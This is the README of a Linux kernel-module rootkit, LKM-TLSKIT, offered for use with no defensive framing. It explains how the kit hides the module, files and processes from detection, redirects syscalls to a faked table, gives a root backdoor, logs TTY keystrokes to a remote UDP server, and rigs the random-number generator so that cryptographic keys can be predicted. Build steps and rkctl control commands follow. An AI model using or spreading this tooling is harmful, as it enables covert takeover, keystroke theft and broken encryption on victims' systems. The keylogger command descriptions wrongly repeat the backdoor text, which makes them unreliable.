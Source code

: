 # LKM-TLSKIT

A Linux rootkit, based on a Linux Kernel Module.

> This rootkit has been developed on Linux kernel version 4.19.0-12-amd64
on Debian 10.6

## Features

* **Module hiding:** 

The kernel module is hidden from lsmod and /sys/module. This is done by remapping
the module's core layout such that the memory of the rootkit is unlinked from the kernel
module. It allows unloading the kernel module and destroying all the corresponding files,
while keeping the rootkit alive. This approach seems to be more stealthy than just hiding
the module via syscall hooking and removing the module from internal kernel lists.
     
* **SYSCALL hooking:**

The rootkit supports syscall hooking by redirecting syscalls from the user-space to 
a faked syscall table. In this ways, integrity checks on the syscall table will pass, since
the original syscall table will never be modified. In contrast, integrity checks on the
code itself will detect the rootkit, but due to runtime-patching of the kernel, 
this is more difficult to achieve.

The technique uses pattern matching on assembly code, starting at the address where the 
LSTAR MSR register points to (either entry_SYSCALL_64 or entry_SYSCALL_64_trampoline).

When the pattern matching fails (e.g. when different compiler versions are used that 
implements different optimizations) we will simply override the syscall table instead,
which is less stealthy and allows rootkit detection via syscall table integrity checks. 

* **File hiding:**

Files that contain the "user.rootkit" extended attribute are hidden from the user space
by hooking the getdents(64) syscall.

Extended attributes can be set via the *setfattr* tool.

* **Privilege Escalation via Backdoor:**

Execute an arbitrary program as root.

* **Process hiding:**

Process hiding is implemented by filtering the /proc directory. Tools, such as
*ps* will create a process list based on the files in the */proc* directory. Entries that correspond to
hidden processes will be hidden from the directory. 

Hidden processes can be detected from a hypervisor using the *lx-ps* gdb script, which
lists all processes based on the task_struct list, instead of checking the /proc directory.
To avoid this kind of detection, the corresponding task_struct is removed from the internal
tasks list. (This does not work for children of hidden tasks, yet.)

It must be ensured that the tasks list contains the task_struct of a task that is terminated or
killed, otherwise the kernel would panic. Therefore, the *do_exit* function is hooked via the 
ftrace hooking technique to reinsert the task into the tasks list, before the *do_exit* function is
executed. 
Further, the proc filter is removed for the corresponding pid, such that the
process is only hidden during its lifetime and not for upcoming processes that obtain the same pid.

* **Keylogger:**

A keylogger that hooks the tty->read function to receive all the input data from TTY/PTY
pseudoterminals, which is used for the user interface, ssh, docker, ...
The data will then be sent to an UDP server, control characters will be parsed to a specific string format.

* **CSPRNG hooking:**

The rootkit hooks the cryptographic secure pseudo random number generator (CSPRNG) from the
operating system and returns predictable random values, which allows the recalculation
of secrets generated by cryptographic libraries from the userspace (e.g. openssl). 
In case of Linux, this is */dev/random*, */dev/urandom* and the *getrandom()* syscall.

## Build dependencies

`apt-get install linux-headers-$(uname -r)`

## Build

A Makefile is provided for building the kernel module rootkit and its user-space
control program:

``make``

## Installation

The installation of the tlskit is done via the user-space control program.
See ***load*** and ***unload*** in the **Usage** section.

## Usage
The rootkit can be controlled via a user-space control program. 

The rootkit control program supports the following commands:

* ***Ping:*** 

    Check if the rootkit is currently alive: 

    ``./rkctl ping``

* ***Load:***

    Load the kernel module and install the rootkit: 

    ``./rkctl load <module.ko>``

* ***Unload:***

    Unload the rootkit: 

    ``./rkctl unload``
    
* ***Backdoor:***

    Run an arbitrary program as root (e.g. root shell via /bin/sh): 

    ``./rkctl backdoor <program>``
    
* ***Start Keylogger:***   
 
    Run an arbitrary program as root (e.g. root shell via /bin/sh): 

    ``./rkctl keylog_start <ip> <port>``

* ***Stop Keylogger:***

    Run an arbitrary program as root (e.g. root shell via /bin/sh): 

    ``./rkctl keylog_stop``
    
* ***Hide a Process:***

    Hide a process and all its successors by pid (can be testes by tools like *ps* or *top*): 

    ``./rkctl hidepid_add <pid>``
    
* ***Unhide a Process:***

    Unhide a hidden process and all its successors by pid: 

    ``./rkctl hidepid_rm <pid>``